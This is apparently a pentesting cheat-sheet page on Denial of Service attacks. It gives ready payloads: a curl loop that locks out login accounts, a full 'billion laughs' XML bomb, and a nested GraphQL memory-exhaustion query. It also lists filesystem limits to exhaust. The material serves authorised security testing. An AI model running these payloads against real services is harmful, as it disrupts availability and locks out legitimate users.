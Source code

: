 # Denial of Service

> A Denial of Service (DoS) attack aims to make a service unavailable by overwhelming it with a flood of illegitimate requests or exploiting vulnerabilities in the target's software to crash or degrade performance. In a Distributed Denial of Service (DDoS), attackers use multiple sources (often compromised machines) to perform the attack simultaneously.

## Summary

* [Methodology](#methodology)
    * [Locking Customer Accounts](#locking-customer-accounts)
    * [File Limits on FileSystem](#file-limits-on-filesystem)
    * [Memory Exhaustion - Technology Related](#memory-exhaustion---technology-related)
* [References](#references)


## Methodology

Here are some examples of Denial of Service (DoS) attacks. These examples should serve as a reference for understanding the concept, but any DoS testing should be conducted cautiously, as it can disrupt the target environment and potentially result in loss of access or exposure of sensitive data.


### Locking Customer Accounts

Example of Denial of Service that can occur when testing customer accounts. 
Be very careful as this is most likely **out-of-scope** and can have a high impact on the business.

* Multiple attempts on the login page when the account is temporary/indefinitely banned after X bad attempts.
    ```ps1
    for i in {1..100}; do curl -X POST -d "username=user&password=wrong" <target_login_url>; done
    ```


### File Limits on FileSystem

When a process is writing a file on the server, try to reach the maximum number of files allowed by the filesystem format. The system should output a message: `No space left on device` when the limit is reached.
 
| Filesystem | Maximum Inodes |
| ---        | --- |
| BTRFS      | 2^64 (~18 quintillion) |
| EXT4       | ~4 billion |
| FAT32      | ~268 million files |
| NTFS       | ~4.2 billion (MFT entries) |
| XFS        | Dynamic (disk size) |
| ZFS        | ~281 trillion |

An alternative of this technique would be to fill a file used by the application until it reaches the maximum size allowed by the filesystem, for example it can occur on a SQLite database or a log file.

FAT32 has a significant limitation of **4 GB**, which is why it's often replaced with exFAT or NTFS for larger files.

Modern filesystems like BTRFS, ZFS, and XFS support exabyte-scale files, well beyond current storage capacities, making them future-proof for large datasets.


### Memory Exhaustion - Technology Related

Depending on the technology used by the website, an attacker may have the ability to trigger specific functions or paradigm that will consume a huge chunk of memory.

* **XML External Entity**: Billion laughs attack/XML bomb
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```
* **GraphQL**: Deeply-nested GraphQL queries.
    ```ps1
    query { 
        repository(owner:"rails", name:"rails") {
            assignableUsers (first: 100) {
                nodes {
                    repositories (first: 100) {
                        nodes {
                            
                        }
                    }
                }
            }
        }
    }
    ```
* **Image Resizing**: try to send invalid pictures with modified headers, e.g: abnormal size, big number of pixels.
* **SVG handling**: SVG file format is based on XML, try the billion laughs attack.
* **Regular Expression**: ReDoS


## References

- [DEF CON 32 - Practical Exploitation of DoS in Bug Bounty - Roni Lupin Carta - October 16, 2024](https://youtu.be/b7WlUofPJpU)
- [Denial of Service Cheat Sheet - OWASP Cheat Sheet Series - July 16, 2019](https://cheatsheetseries.owasp.org/cheatsheets/Denial_of_Service_Cheat_Sheet.html)
